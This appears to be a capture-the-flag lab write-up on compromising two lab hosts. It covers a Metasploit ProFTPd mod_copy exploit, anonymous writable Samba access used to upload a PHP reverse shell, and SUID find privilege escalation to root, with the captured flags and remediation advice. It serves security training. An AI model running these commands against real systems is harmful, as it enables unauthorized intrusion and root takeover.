# CTF Report: Exploitation III

**Classification:** Host & Network Penetration Testing / Exploitation<br>
**Target 1:** target1.ine.local (192.125.132.3) — ProFTPd 1.3.5, Apache<br>
**Target 2:** target2.ine.local (192.125.132.4) — Samba, Apache (Ubuntu)<br>
**Attacker:** 192.125.132.2 (Kali)<br>
**Objective:** Enumerate both targets and capture four flags (md5 format).

## 1. Executive Summary

Target 1 runs **ProFTPd 1.3.5**, exploitable via the `mod_copy` RCE for a shell and the first
flag; a secret service bound to **localhost:8888** yields the second. Target 2 exposes a
**passwordless, writable Samba share** (`site-uploads`) mapped to the web root — dropping a
PHP webshell there gives a `www-data` shell and the third flag — and a **SUID `find`** binary
(GTFOBins) escalates to root for the fourth.

## 2. Target 1 — Recon

```bash
ping -c 4 target1.ine.local    # 192.125.132.3
db_nmap -sV 192.125.132.3
```











## 3. Flag 1 — ProFTPd mod_copy RCE

```bash
searchsploit ProFTPD 1.3.5
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOSTS 192.125.132.3
set SITEPATH /var/www/html
exploit
```





A command shell opens; we upgrade it to Meterpreter.







The first flag is in `/`.

```
Flag 1: 393956223883444298ac75fac0efc4fd
```



## 4. Flag 2 — Local Secret Service (8888)

Enumerating listeners reveals a service bound to `127.0.0.1:8888`.

```bash
netstat -tuln 127.0.0.1       # 127.0.0.1:8888 LISTEN
```



Connecting to it and supplying the passphrase hinted earlier.

```bash
nc 127.0.0.1 8888
# Enter the secret passphrase: letmein
```

```
Flag 2: f33fa69af956478f898459ba3f843997
```



## 5. Target 2 — Recon

```bash
ping -c 4 target2.ine.local    # 192.125.132.4
db_nmap -sV 192.125.132.4
```











Enumerating with enum4linux.

```bash
enum4linux -a 192.125.132.4
```



## 6. Flag 3 — Writable Samba Share → Webshell

Share enumeration shows `site-uploads`.



It accepts `root` with **no password** and is writable (mapped to the web root).

```bash
smbclient //192.125.132.4/site-uploads
# Password: (blank)
```



Preparing a PHP reverse shell and uploading it to the share.





```bash
smb: \> put shell.php
```



Triggering it through the web server catches a `www-data` reverse shell; the third flag is in
`/`.

```
Flag 3: e539ae9a8eff4846806736b744c460ee
```





## 7. Flag 4 — SUID find (GTFOBins) → root

Searching for SUID binaries.

```bash
find / -perm -4000 2>/dev/null      # includes /usr/bin/find
```



Per GTFOBins, a SUID `find` can spawn a privileged shell.



```bash
find . -exec /bin/bash -p \; -quit
whoami            # root
cd /root
cat flag4.txt
# FLAG4{acf5daf7d22a4da696ed0555db1f2ab6}
```



## 8. Remediation Recommendations

1. **Upgrade ProFTPd** past 1.3.5 and disable `mod_copy` (`SITE CPFR/CPTO`).
2. **Lock down the secret/local service** — don't rely on hard-coded passphrases; bind only
   where needed.
3. **Fix Samba** — no anonymous/guest write, require authentication, and never map a writable
   share to the web root.
4. **Remove unnecessary SUID bits** (`find`, etc.) and apply least privilege to break GTFOBins
   escalation paths.
